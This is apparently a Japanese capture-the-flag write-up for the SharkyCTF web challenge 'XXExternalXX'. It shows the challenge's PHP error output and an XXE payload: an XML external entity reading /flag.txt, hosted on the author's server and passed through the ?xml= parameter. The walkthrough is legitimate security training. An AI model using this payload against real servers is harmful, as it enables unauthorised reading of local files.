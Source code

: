 # XXExternalXX:Web:70pts
One of your customer all proud of his new platform asked you to audit it. To show him that you can get information on his server, he hid a file "flag.txt" at the server's root.  
[xxexternalxx.sharkyctf.xyz](http://xxexternalxx.sharkyctf.xyz)  

# Solution
アクセスすると以下のようなサイトとなっている。  
Home  
[site1.png](site/site1.png)  
Show stored data  
[site2.png](site/site2.png)  
Show stored dataページに注目するとURLがhttp://xxexternalxx.sharkyctf.xyz/?xml=data.xml となっている。  
http://xxexternalxx.sharkyctf.xyz/data.xml を読み出しているようだ。  
```xml:data.xml
<root>
    <data>17/09/2019 the platform is now online, the fonctionnalities it contains will be audited by one of our society partenairs</data>
</root>
```
http://xxexternalxx.sharkyctf.xyz/?xml= にアクセスすると以下のエラーが出る。  
```text:エラー
Warning: file_get_contents(): Filename cannot be empty in /var/www/html/index.php on line 20

Warning: DOMDocument::loadXML(): Empty string supplied as input in /var/www/html/index.php on line 23

Warning: simplexml_import_dom(): Invalid Nodetype to import in /var/www/html/index.php on line 24

Notice: Trying to get property 'data' of non-object in /var/www/html/index.php on line 25
```
XXEを行い、flag.txtを読み出せばよい。  
http://www.xxxxx.xxx/hack.xml には以下のxmlを設置した。  
```xml:hack.xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY satoki SYSTEM '/flag.txt'>]><root><data>&satoki;</data></root>
```
http://xxexternalxx.sharkyctf.xyz/?xml=http://www.xxxxx.xxx/hack.xml にアクセスするとflagが表示される。  
[flag.png](site/flag.png)  

## shkCTF{G3T_XX3D_f5ba4f9f9c9e0f41dd9df266b391447a}